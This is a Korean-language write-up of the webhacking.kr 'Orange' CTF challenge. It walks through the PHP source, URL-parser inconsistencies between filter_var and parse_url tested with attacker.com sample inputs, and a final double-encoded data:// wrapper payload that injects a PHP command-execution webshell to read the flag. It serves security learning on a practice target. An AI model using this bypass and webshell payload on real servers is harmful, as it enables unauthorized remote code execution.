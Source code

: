```yaml
---
title: ["[Webhacking.kr] Orange🍊 (lfi - 300)"]
date: 2024-12-17 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, lfi, ssrf, rfc, parse_url]
---
```


```php
<?php
  if($_GET['view_source']){ highlight_file(__FILE__); exit; }
  if($_GET['view_version']){ echo phpversion(); exit; }
  if($_GET['ls']){ system("ls -a"); exit; } // to prove for about there is not hidden files in this directory. you dont have to run dirbuster!
  if(isset($_GET['url'])){
    $url = $_GET['url'].".txt";
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/webhacking.kr:10009\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "webhacking.kr") || (parse_url($url)['port'] !== 10009)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  echo "<hr><a href=./?url=http://webhacking.kr:10009/cat>cat</a> <a href=./?url=http://webhacking.kr:10009/dog>dog</a> <hr><a href=./?view_source=1>view-source</a> <a href=./?view_version=1>view-version</a> <a href=./?ls=1>ls</a>";
?>
```

* .txt 확장자가 자동으로 추가됨
* `FILTER_VALIDATE_URL`로 유효한 URL인지 검사
* URL에 `http://webhacking.kr:10009/` 문자열이 있는지 검사
* 특수문자 `@`,`#`,`(`,`)`,`$`,`` ` ``,`'`,`"`,`_`,`{`,`}`,`?`, 사용 불가
* host가 "webhacking.kr"이고 port가 10009인지 검사
* URL에 user와 pass 정보가 없어야 함

이번 문제를 풀기 위해서 이해해야할 개념을 먼저 정리해보자.  

### FILTER_VALIDATE_URL

PHP에서 URL의 형식이 RFC 표준을 따르는지 검증하는 필터이다.  
1. scheme이 있어야 함 - http://, https://등
2. host가 있어야 함
3. 유효한 문자만 사용되어야 함

### Bypass URL Validation and Regular Expression

[A New Era of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) 2017 Black Hat에서 Orange Tsai가 발표한 내용이다.  
(아마 문제의 제목이 orange인 이유도 이것 때문이지 않을까..)

URI RFC 구문의 특징으로 `;`, `,`와 같은 특수문자들은 URL의 scheme-specific 부분에서 특별한 용도로 예약되어 있다.  
이런 특수문자들이 포함된 URL을 파싱할 때, `filter_var()`과 같은 URL 검증 함수와 실제 HTTP 요청 시의 인식이 다를 수 있다.  
이런 URL 파싱의 불일치를 이용하여 SSRF를 일으킬 수 있다.  

```php
<?php
$url = $argv[1] ;

// URL Validating
$is_valid = filter_var($url, FILTER_VALIDATE_URL);
echo "Valid URL: " . ($is_valid ? "Yes" : "No") . "\n";

// URL Parsing
$parsed = parse_url($url);
if ($parsed) {
    echo "[Scheme] : " . (isset($parsed['scheme']) ? $parsed['scheme'] : 'N/A') . "\n";
    echo "- Host: " . (isset($parsed['host']) ? $parsed['host'] : 'N/A') . "\n";
    echo "- Port: " . (isset($parsed['port']) ? $parsed['port'] : 'N/A') . "\n";
    echo "- Path: " . (isset($parsed['path']) ? $parsed['path'] : 'N/A') . "\n";
} else {
    echo "Could not parse URL\n";
}
```

PHP 7.3버전에서 `filter_var()`함수와 `parse_url()`함수가 어떻게 동작하는지 자세히 알아보자.  

```
$ php urlval.php http://attacker.com,google.com
Valid URL: No
[Scheme] : http
[Host]   : attacker.com,google.com
[Port]   : N/A
[Path]   : N/A
```
단순히 `,`과 같은 delimiter를 사용하는 것으로는, `filter_var()`함수를 우회하지 못한다.  

```
$ php urlval.php 0://attacker.com,google.com
Valid URL: Yes
[Scheme] : 0
[Host]   : attacker.com,google.com
[Port]   : N/A
[Path]   : N/A
``` 
 `http://` 대신 `0://`을 사용한다면, `filter_var()`를 우회할 수 있다.  
 하지만, `Host`에 `;google.com`이 포함되어, `curl` 등으로 정상적으로 통신을 요청하지 못한다.  

```
$ php urlval.php 0://attacker.com:80,google.com:80
Valid URL: Yes
[Scheme] : 0
[Host]   : attacker.com,google.com
[Port]   : 80
[Path]   : N/A
``` 
위와 같이 포트까지 지정을 해준다면 curl이 `Host`를 읽을 때, 포트 앞까지만 읽어 `attacker.com`으로 통신이 성공한다.  


### Payload 구성
최종 페이로드 구성은 [PHP Wrappers](https://www.ptsecurity.com/upload/corporate/ru-ru/webinars/ics/%d0%90.%d0%9c%d0%be%d1%81%d0%ba%d0%b2%d0%b8%d0%bd_%d0%9e_%d0%b1%d0%b5%d0%b7%d0%be%d0%bf_%d0%b8%d1%81%d0%bf_%d0%a0%d0%9d%d0%a0_wrappers.pdf)와 [RFC2397](https://datatracker.ietf.org/doc/html/rfc2397)의 도움을 많이 받았다.  


```
dataurl := "data:" [ mediatype ] [ ";base64" ] "," data
mediatype := [ type "/" subtype ] *( ";" parameter )
data := *urlchar
parameter := attribute "=" value
```  
RFC2397에 따르면, `data://` wrapper는 위와 같이 구성이 된다.  
이중에 `mediatype`은 비어있거나 아무 문자가 들어가도 된다고 한다.  
이 개념을 이용해서 문제에서 요구하는 문자열들을 채워넣으면 되겠다.  

```
data://webhacking.kr:10009/http://webhacking.kr:10009/;base64,[base64 encdoed PAYLOAD]
```
처음에는 이렇게 접근했는데, url 뒤에 `.txt`가 붙어 디코딩 에러가 나는걸 확인했다.  
`.txt` 문자열이 붙어도 오류가 나지 않는 방식을 고민하다가, spec 문서에서 소개한 text/plain with charset parameter를 사용하기로 했다.  
문제에서 PHP스크립트에 사용되는 특수문자들을 필터링하는데 이를 우회하기 위해 인코딩된 값으로 넘겨주기 위함이다.  

```
// <?=`$_GET[0]`;?>
data://webhacking.kr:10009/http://webhacking.kr:10009/;charset=iso-8859-7,%253C%253f=%2560%2524%255fGET%255B0%255D%2560;%253f%253E&0=cat%20../../../flag
```
최종 페이로드는 이렇게 구성했다.  
더블인코딩을해야 서버에 인코딩된 값이 전달된다.  